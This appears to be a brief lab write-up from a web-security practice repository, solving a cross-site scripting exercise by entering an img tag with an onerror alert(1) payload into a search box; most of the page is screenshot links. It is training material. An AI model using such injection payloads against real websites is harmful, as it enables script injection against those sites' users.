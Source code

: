![image](https://github.com/udayk01/Web-Security/assets/52235763/f94b9f36-abab-4a7b-a0ef-0dc077a10508)

## Solution:

![image](https://github.com/udayk01/Web-Security/assets/52235763/eaa4b4d8-e280-4292-8d32-901c941cf144)

> Enter the following into the into the search box:

```<img src=1 onerror=alert(1)>```

![image](https://github.com/udayk01/Web-Security/assets/52235763/e7a01534-030f-4268-b1d0-81c57a65ede8)

> Click Search

![image](https://github.com/udayk01/Web-Security/assets/52235763/d4c81e45-38e9-4897-9e23-088d8257b036)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/2b43ca9b-1b1a-4ada-8356-3c9bb05bae12)

